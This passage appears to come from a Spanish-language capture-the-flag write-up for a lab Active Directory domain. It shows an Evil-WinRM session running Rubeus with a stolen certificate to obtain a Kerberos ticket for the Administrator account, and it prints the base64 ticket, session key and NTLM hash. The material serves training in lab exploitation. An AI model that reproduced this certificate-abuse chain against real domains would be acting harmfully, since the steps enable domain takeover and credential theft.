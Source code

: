 Descargamos el archivo y el binario de Rubeus.
```bash
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> .\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] Building AS-REQ (w/ PKINIT preauth) for: 'sequel.htb\Administrator'
[*] Using domain controller: fe80::ac1b:a74a:c865:d5a0%4:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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

  ServiceName              :  krbtgt/sequel.htb
  ServiceRealm             :  SEQUEL.HTB
  UserName                 :  Administrator
  UserRealm                :  SEQUEL.HTB
  StartTime                :  4/4/2023 7:47:55 PM
  EndTime                  :  4/5/2023 5:47:55 AM
  RenewTill                :  4/11/2023 7:47:55 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable
  KeyType                  :  rc4_hmac
  Base64(key)              :  RJRD36btjbbDzaug9HCMbQ==
  ASREP (key)              :  D7DB92B28474C13C0F2172CE2F52A8F5

[*] Getting credentials using U2U

```